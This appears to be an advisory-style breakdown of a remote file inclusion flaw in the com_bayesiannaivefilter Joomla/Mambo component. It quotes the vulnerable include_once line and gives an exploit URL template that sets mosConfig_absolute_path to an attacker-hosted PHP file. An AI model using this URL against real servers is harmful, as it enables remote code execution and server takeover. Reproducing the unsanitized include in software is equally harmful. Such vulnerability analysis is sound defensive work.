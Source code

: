 Based on the provided content, here's the breakdown of the vulnerability:

*   **Root Cause:** The `lang.php` file in the `com_bayesiannaivefilter` component for Joomla/Mambo includes a file based on the `mosConfig_absolute_path` and `mosConfig_lang` variables. The `mosConfig_absolute_path` is not properly sanitized, allowing for the inclusion of arbitrary files from a remote server.

*   **Weaknesses/Vulnerabilities Present:**
    *   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include and execute arbitrary files from a remote location via the `mosConfig_absolute_path` parameter.

*   **Impact of Exploitation:**
    *   An attacker can execute arbitrary PHP code on the vulnerable server by including a malicious PHP file from a remote server.
    *   This can lead to complete compromise of the server, allowing the attacker to gain unauthorized access, modify data, or perform other malicious actions.

*   **Attack Vectors:**
    *   The vulnerability can be exploited via a web request to the `lang.php` file of the vulnerable component.
    *   The `mosConfig_absolute_path` parameter is used to specify the URL of the malicious file to include.

*   **Required Attacker Capabilities/Position:**
    *   The attacker needs to be able to send HTTP requests to the vulnerable server.
    *   The attacker needs to control a server where the malicious PHP code is hosted to be included in the vulnerable application.

**Technical Details:**

The vulnerable code snippet from `lang.php` is:

```php
include_once($mosConfig_absolute_path.'/administrator/components/com_bayesiannaivefilter/languages/'.$mosConfig_lang.'.php');
```

The exploit is performed by crafting a URL with a malicious `mosConfig_absolute_path` parameter:

```
http://site.com/[path]/administrator/components/com_bayesiannaivefilter/lang.php?mosConfig_absolute_path=[Evilcode]
```
Where `[Evilcode]` is the URL of a remote malicious PHP file.

This information provides more detail than the standard CVE description, which is a placeholder.